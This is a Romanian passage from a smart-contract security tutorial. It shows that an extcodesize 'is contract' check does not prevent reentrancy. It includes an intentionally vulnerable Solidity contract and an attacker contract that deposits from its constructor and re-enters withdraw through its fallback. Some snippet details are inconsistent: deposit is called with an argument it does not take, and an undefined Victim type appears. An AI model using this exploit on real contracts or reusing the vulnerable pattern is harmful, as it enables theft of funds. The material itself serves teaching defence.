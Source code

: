 Aţi putea lua în calcul interziceţi re-intrarea împiedicând orice contract inteligent să interacționeze cu codul dvs. Când căutaţi stackoverflow, descoperiţi că acest fragment de cod (snippet) are tone de voturi pozitive:

```solidity
function isContract(address addr) internal returns (bool) {
  uint size;
  assembly { size := extcodesize(addr) }
  return size > 0;
}
```

Pare să aibă sens: contractele au cod, iar dacă apelantul are vreun cod, nu i se permite să depună. Haideţi să îl adăugăm:

```solidity
// ACEST CONTRACT ARE VULNERABILITATE INTENȚIONATĂ, NU COPIA
contract ContractCheckVictim {
    mapping (address => uint256) public balances;

    function isContract(address addr) internal returns (bool) {
        uint size;
        assembly { size := extcodesize(addr) }
        return size > 0;
    }

    function deposit() external payable {
        require(!isContract(msg.sender)); // <- LINIE NOUĂ
        balances[msg.sender] += msg.value;
    }

    function withdraw() external {
        uint256 amount = balances[msg.sender];
        (bool success, ) = msg.sender.call.value(amount)("");
        require(success);
        balances[msg.sender] = 0;
    }
}
```

Acum nu trebuie să aveţi codul de contract inteligent în adresa dvs. pentru a depune ETH. Totuși, se poate depăşi această situaţie cu următorul contract Atacator:

```solidity
contract ContractCheckAttacker {
    constructor() public payable {
        ContractCheckVictim(VICTIM_ADDRESS).deposit(1 ether); // <- Linie nouă
    }

    function beginAttack() external payable {
        ContractCheckVictim(VICTIM_ADDRESS).withdraw();
    }

    function() external payable {
        if (gasleft() > 40000) {
            Victim(VICTIM_ADDRESS).withdraw();
        }
   }
}
```

